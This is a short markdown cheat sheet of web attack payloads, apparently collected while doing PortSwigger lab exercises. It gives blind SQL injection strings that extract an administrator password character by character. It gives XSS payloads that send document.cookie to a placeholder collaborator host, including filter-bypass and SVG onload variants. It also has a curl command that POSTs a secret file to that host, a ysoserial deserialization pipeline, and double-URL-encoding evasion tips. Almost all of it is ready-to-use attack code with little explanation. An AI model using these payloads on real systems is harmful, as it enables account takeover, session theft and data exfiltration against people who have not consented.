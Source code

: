 # SQL Injection

```sql
-- In order by statment https://portswigger.net/support/sql-injection-in-the-query-structure
-- ASCII converts the characters to numbers
(CASE+WHEN(SELECT+ASCII(SUBSTRING(password,1,1))+FROM+users+where+username+%3d+'administrator')%3d97+THEN+AUTHOR+ELSE+TITLE+END)

-- Divides by 1 if true, 0 if not
-- Used when a number (int) was in front of the query
-- %2F = /, %2B = +, %2A = *, %2D = -
%2F(CASE+WHEN+(SELECT+SUBSTRING(password,1,1)+FROM+users+where+username+%3d+'administrator')%3d'a'+THEN+1+ELSE+0+END)
```

# XSS

```js
// No periods (.)
fetch(atob('<base64-of-your-colaborator>'), {method: 'POST', mode: 'no-cors', body:eval(atob('ZG9jdW1lbnQuY29va2ll'))})

// No parentheses
eval.call`${"fetch\x28'<your-collaborator>', {method: 'POST', mode: 'no-cors', body: document.cookie}\x29"}`
//  With base64 encoding
eval.call`${atob`YWxlcnQoMSk=`}`

// SVG to steal cookie
'"><svg/onload=fetch(`//<your-collaborator>/cookie?=${encodeURIComponent(document.cookie)}`)>
```

# Code Injection
```bash

# Curl file contents
curl -X POST <your-collaborator> -d @/home/carlos/secret

# Gzip and base64 ysoserial
java -jar ysoserial-all.jar CommonsBeanutils1 "CMD" | gzip | base64 -w0
```

#Obfuscation

## Double URL Encoding 
### The letter a = %2561
- %25 = % when decoded so it ends up as %61 which equals a
- To quickly do this in console:
  - Set the urlencoded string to a variable and use replace all:
    ```
    // admin urlencoded is: %61%64%6d%69%6e
    > s = "%61%64%6d%69%6e"
    > s.replaceAll('%', '%25')
    // Outputs: %2561%2564%256d%2569%256e
    ```
